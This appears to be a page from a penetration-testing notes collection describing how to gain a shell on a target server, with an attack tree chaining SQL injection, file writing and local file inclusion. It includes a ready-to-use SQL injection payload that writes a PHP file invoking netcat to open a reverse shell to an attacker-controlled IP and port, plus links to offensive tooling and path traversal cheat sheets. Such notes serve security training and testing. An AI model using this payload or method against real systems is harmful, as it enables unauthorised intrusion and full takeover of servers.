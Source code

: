# Get shell and control target server

## Attack tree

```text
1 Netcat installed on both systems (hacking and target machines) (AND)
    1.1 Install netcat on both systems (AND)
    1.2 Create a reverse shell (AND)
    1.3 Setup a netcat listener on the hacking machine
2 SQL injection writing payload to server (AND)
    2.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    2.2 Find the amount of columns (AND)
    2.3 Find which columns accept queries (AND)
    2.4 Build an UNION SELECT SQL segment (AND)
    2.5 Inject SQL statements into the column (AND)
    2.6 Post exploitation
3 Use file inclusion vulnerability of any website on the server to run the payload
    3.1 Connect to the listener from the target machine (AND)
    3.2 Post exploitation
```
## Example SQL segments

PHP (and nc):
```text
-1' UNION SELECT '<?passthru("nc -e /bin/sh/ <IP hacking server> <port>");?>',null into outfile '/tmp/reverse.php' /*
```

## Notes

Works only in combination with a [local file inclusion vulnerability](../exploit/lfi.md).

## Tools
* [Burp suite CE proxy](https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic)

## Cheatsheets

* [MSFvenom cheatsheet](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)
* [Path Traversal Cheat Sheet: Windows](https://www.akimbocore.com/article/windows-path-traversal-cheat-sheet/)
* [Path Traversal Cheat Sheet: Linux](https://www.akimbocore.com/article/linux-path-traversal-cheat-sheet/)

